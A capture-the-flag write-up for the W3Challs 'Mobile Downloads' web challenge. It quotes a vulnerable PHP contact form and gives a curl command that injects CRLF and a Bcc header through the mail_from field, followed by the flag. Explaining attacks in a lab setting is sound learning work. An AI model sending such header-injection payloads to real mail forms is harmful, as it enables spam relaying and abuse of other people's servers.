

# Mobile Downloads - Web CTF Challenge

> **Room / Challenge:** Mobile Downloads (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** W3Challs
- **Challenge:** Mobile Downloads (web)
- **Target / URL:** `https://w3challs.com/challenges/web/mobile_downloads`
- **Difficulty:** `Baby`
- **Points:** `5`
- **Date:** `26-09-2025`

---

## My Solution

1. Focus on the given hint:

```
Hint: Spam! The goal is just to send an email to any unexpected recipient, not to become admin. You'll get the flag if a correct attack payload is detected, no bot will visit the page and you'll not get emails if your attack works.
```

2. Take a look at the main page:



3. There is no other route we can focus on except the **Contact** form in **Contact** page. This is the `php` code of the contact form.

```php
<?php
    $host = 'mobile-downloads.hax.w3challs.com';
    $subject = '';
    $message = '';
    $from = '';

    if (isset($_SERVER['HTTP_HOST']))
        $host = htmlentities($_SERVER['HTTP_HOST'], ENT_QUOTES, 'UTF-8');

    $to = 'admin@'.$host;

    if (isset($_POST) &&
        !empty($_POST['mail_from']) &&
        !empty($_POST['mail_subject']) &&
        !empty($_POST['mail_content']) &&
        is_string($_POST['mail_from']) &&
        is_string($_POST['mail_subject']) &&
        is_string($_POST['mail_content']))
    {
        $subject = $_POST['mail_subject'];
        $message = $_POST['mail_content'];
        $from    = $_POST['mail_from'];

        define('message_prefix', 'Mail sent from %s:'."\n".str_repeat('-', 64)."\n");
        $msg = sprintf(message_prefix, $host) . $message;

        $headers = 'From: '.$from."\r\n".
                    'Reply-To: '.$from."\r\n".
                    'X-Mailer: PHP/'.phpversion();

        if (mail($to, $subject, $msg, $headers) === TRUE)
        {
            printf('<div class="success">The message was sent</div><br />');
            $subject = '';
            $message = '';
            $from = '';
        }
        else
            printf('<div class="error">The message cannot be sent</div><br />');
    }

    $subject = htmlentities($subject, ENT_QUOTES, 'UTF-8');
    $message = htmlentities($message, ENT_QUOTES, 'UTF-8');
    $from = htmlentities($from, ENT_QUOTES, 'UTF-8');
?>
```

4. There is one field we should focus on:

```php
$headers = 'From: '.$from."\r\n".
        'Reply-To: '.$from."\r\n".
        'X-Mailer: PHP/'.phpversion();
```

5. Through the hint and message in the main page, we can assume that we can get the flag by making the message sent to an unexpected recepient.

6. A flag can be achieved with really simple command:

```bash
curl -v -X POST "https://mobile-downloads.hax.w3challs.com/?contact" \
  --data $'mail_from=attacker@example.com\r\nBcc: attacker@gmail.com' \
  --data-urlencode "mail_subject=CRLF test" \
  --data-urlencode "mail_content=testing CRLF injection"
```

_This attack called CRLF injection. For more details, read [this](https://www.invicti.com/learn/crlf-injection/)_

7. The result is:

```html
<div id="content">
  <div class="contenttop">
    <div class="contenttitle">Contact form</div>
  </div>
  <div class="contentfill">
    <div class="contentinfo">
      <div class="success">
        Congrats! You found and (kinda) exploited an
        <strong>SMTP Injection</strong>!<br /><br />
        The flag is <strong>W3C{3v1l_Sp4m_1s_3v1l}</strong>
      </div>
      <br /><br />
      <div class="success">The message was sent</div>
      <br />
      To contact us, please use the form below and indicate your e-mail address:
      <br /><br />
      <form method="POST" action="">
        <strong>Recipient:</strong><br />
        <span class="spaced">admin@mobile-downloads.hax.w3challs.com</span
        ><br /><br />
        <strong>Your e-mail address:</strong><br />
        <input
          type="text"
          size="40"
          name="mail_from"
          class="spaced"
          value=""
        /><br /><br />
        <strong>Subject:</strong><br />
        <input
          type="text"
          size="50"
          name="mail_subject"
          class="spaced"
          value=""
        /><br /><br />
        <strong>Message:</strong><br />
        <textarea
          name="mail_content"
          cols="53"
          rows="15"
          class="spaced"
        ></textarea
        ><br /><br />
        <div style="text-align: center">
          <input type="submit" value="Send" />
        </div>
      </form>
      <div style="text-align: right">
        Mail powered by W3Corp™<br /><a href="/mail_src.php">Sources</a>
      </div>
    </div>
  </div>
</div>
```

8. The flag is: `W3C{3v1l_Sp4m_1s_3v1l}`
